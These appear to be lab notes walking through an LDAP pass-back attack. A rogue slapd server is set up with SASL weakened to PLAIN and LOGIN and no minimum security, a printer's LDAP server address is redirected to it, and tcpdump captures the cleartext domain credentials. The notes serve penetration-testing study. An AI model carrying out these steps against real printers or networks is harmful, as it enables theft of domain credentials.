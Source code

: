 
## Ldap pass-back attack & Rogue LDAP server

We need to set up a rogue LDAP server to capture the credentials.

To install the slapd and LDAP-utils.

	sudo apt-get update && sudo apt-get -y install slapd ldap-utils 

Set any administrator password.

Next, Start configure the domain

dpkg-reconfigure -p low slapd

	1. Omit OpenLDAP server configuration? No
	2. DNS domain name: (AD domain name) i.e. testdomain.com
	3. Organization name: (AD domain name) i.e. testdomain.com
	4. Confrim with you administrator passwd which done by initial configuration.
	5. Do you want the database to be removed when slapd is purged? No
	6. Move old database files before creating a new database YES


	sudo systemctl enable slapd

	sudo systemctl start slapd

In order to obtain the clear-text credentials, we must reconfigure our LDAP server to only support the PLAIN and LOGIN authentication methods. To do this, we need to create a new LDIF file with the following information:

      #olcSaslSecProps.ldif

      dn: cn=config
      replace: olcSaslSecProps
      olcSaslSecProps: noanonymous,minssf=0,passcred

olcSaslSecProps: specifies the SASL security properties; noanonymous flag disables mechanisms that support anonymous login.
minssf: specifies the minimum acceptable security strength; 0 is for no protection.

Apply the new changes using the ldapmodify command and restart the LDAP server.

	 sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart 

To verify the modification:

	ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
	dn:
	supportedSASLMechanisms: PLAIN
	supportedSASLMechanisms: LOGIN

Change the server ip on printer webpage then start, Check the following error: "This distinguished name contains invalid syntax". If you receive this error, then use a tcpdump to capture the credentials.

   sudo tcpdump -SX -i breachad tcp port 389
